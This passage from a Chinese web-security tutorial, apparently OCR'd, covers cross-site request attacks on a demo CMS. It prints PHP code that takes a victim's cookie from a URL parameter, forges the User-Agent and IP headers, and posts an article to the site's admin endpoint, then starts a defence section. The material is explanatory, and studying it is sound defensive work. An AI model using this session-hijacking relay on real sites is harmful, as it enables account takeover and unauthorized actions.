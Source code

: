 ```php
           }
       }
       return $ip;
    }
    $ip = getRealIp();
    $cookies = isset($_GET['cook']) ? $_GET['cook'] : '';
    $headers = array(
        'User-Agent:'.$_SERVER['HTTP_USER_AGENT'],
        'X-FORWARDED-FOR:'.$ip,
        'Remote-Addr:'.$ip,
        'Cookie:'.$cookies
    );
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, "http://mycms.whyun.com/back/article/article_add.php");
    // 设置cURL 参数，要求结果保存到字符串中还是输出到屏幕上。
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);  //构造IP
    curl_setopt($ch, CURLOPT_REFERER, $_SERVER['HTTP_REFERER']);   //构造来路
    curl_setopt($ch, CURLOPT_HEADER, 0);

    curl_setopt($ch, CURLOPT_POST, true);
    $params = array('title'=>'这是跨站攻击测试','content'=>'网站被跨站攻击了');
    curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query($params));

    $out = curl_exec($ch);
    curl_close($ch);

    $data = json_encode($headers);
    echo "var data = $out;";
```

**代码2.5 伪造session提交**

从代码2.5中可以看出，我们伪造了http请求的header内容，吧浏览器中mycms域的cookie原封不动传过去了，同时在header还伪造了user-agent和ip，mycms中在校验session的时候，发现sessionid和user-agent信息都是对的，所以认为session是存在且合法的！至此为止，我们完成了跨站请求攻击。

## 3.防范

第二章节中，我们的攻击思路是这样的，我们示例了通过js获取cookie，然后生成一个第三方网站的网络请求，然后再从第三方网站发起一个网络请求到我们自己的网站上。整个更急流程大体是这样的：
